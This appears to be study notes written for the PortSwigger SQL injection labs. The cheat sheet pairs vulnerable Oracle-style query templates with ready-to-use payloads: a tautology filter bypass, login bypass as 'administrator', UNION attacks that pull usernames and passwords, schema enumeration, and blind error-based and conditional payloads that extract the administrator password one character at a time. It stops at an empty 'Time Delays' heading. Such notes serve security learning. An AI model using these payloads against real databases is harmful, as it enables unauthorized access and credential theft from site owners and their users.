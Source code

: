 https://portswigger.net/web-security/sql-injection  
*Note: all code below are meant for OracleDB (except `information_schema` related), please check [Syntax Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) for other variants'*  

### WHERE Clause
`SELECT * FROM products WHERE category = '{}' AND released = 1`  
Attack (GET URL): ?category='+OR+1%3d1--  

### Login Bypass (Subvert Logic)
`SELECT * FROM users WHERE username = '{}' AND password = '{}'`  
Attack (POST Method): username=administrator'--&password=123  

### UNION Attacks
**Conditions**  
1. Both queries must return same number of columns  
`ORDER BY {index number}`  
2. Compatible data types in each column  
`UNION SELECT NULL,'a',NULL,NULL`  

**Techniques**  
1. Retrieving multiple values within a single column (concatenation)  
`UNION SELECT NULL,username||'~'||password FROM users`  

### Examine Database
`SELECT banner FROM v$version`  
`SELECT table_name FROM all_tables`  
`SELECT column_name FROM all_tab_columns WHERE table_name='{}'`  

**Non-Oracle DB:**  
`SELECT table_name FROM information_schema.tables`  
`SELECT column_name FROM information_schema.columns WHERE table_name='{}'`  

### Blind SQLi
Backend Query: `SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '{}'`  

**Techniques**  
1. Conditional Responses (observable difference in response)  
`' AND '1'='1`  
`' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a`  
2. Conditional Responses by triggering SQL errors  
`'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` (check if username 'administrator' exists)  
`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`  
3. Time Delays  
